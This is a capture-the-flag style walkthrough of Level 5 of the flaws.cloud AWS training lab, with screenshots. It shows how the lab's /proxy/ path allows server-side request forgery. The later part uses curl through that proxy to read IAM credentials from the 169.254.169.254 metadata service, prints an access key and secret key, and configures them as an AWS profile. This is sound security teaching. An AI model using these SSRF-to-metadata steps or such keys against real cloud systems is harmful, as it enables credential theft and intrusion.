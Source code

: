 ## Level 5
url: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/
<kbd>
![image](https://github.com/user-attachments/assets/ff87639d-72f3-41d7-9a2d-ec12ebd99fc8)
</kbd>
Lab says that the level 6 link can be accessed when we used a proxy, we checked the level 6 link first and sure enough we get access denied
<kbd>
![image](https://github.com/user-attachments/assets/5f8ff2ea-d531-4221-9ca1-d53b90bd027f)
</kbd>
If you notice all three links have a directory `proxy` in it

>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/
>
If we  play around with it, the `proxy` redirects us to the a different location, to confirm, notice the results of icanhazip.com it results to my ip, 
<kbd>
![image](https://github.com/user-attachments/assets/bcb95ce7-c823-4484-9828-6e3b5149b34f)
</kbd>
Then we will use this the icanhazip again this time using the our target. 

Notice that the IP address of the target is the one that showed up, this is like a server side request forgery (SSRF) we can issue make commands via the server
<kbd>
![image](https://github.com/user-attachments/assets/f6d0d92f-06c6-4339-972d-f6e4c5f68a35)
</kbd>
With this vulnerability in mind, Aws,Gcp and azure uses the ip address 169.254.169.254 (Magic IP) as their metadata intance address and should only be accessible using the server.
<kbd>
![image](https://github.com/user-attachments/assets/c9b93321-a6a4-455e-aa97-649e59e5eb64)
</kbd>
You can read more about the instances here if you want 


https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html

Since we have access to their server, if they did not disable the ipv4 access, we can get request for the intance using this server.

After trying the said Magic IP we are able to list the instance metadata 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/`

I also transitioned to curl for easier enumeration I can just press the up arrow in my keyboard and then type there faster, and while enumerating I found this access keys
```
┌──(aaron㉿kali)-[~]
└─$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

```
<kbd>
![image](https://github.com/user-attachments/assets/2469a361-c544-4827-8b58-9bcc5404300f)
</kbd>

We can use this key to check what access we have, we will create another profile for this access, I used the comand below

```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws configure --profile level5
AWS Access Key ID [None]: ASIA6GG7PSQG3JI4EYHC
AWS Secret Access Key [None]: 2pba6UlK1TqpMeW6H9/HqpJzuOKf4ucQuo/cF8yD
Default region name [None]: 
Default output format [None]: 

```

<kbd>![image](https://github.com/user-attachments/assets/aaccc20d-af60-4434-b1c5-5a6efa867260)</kbd>

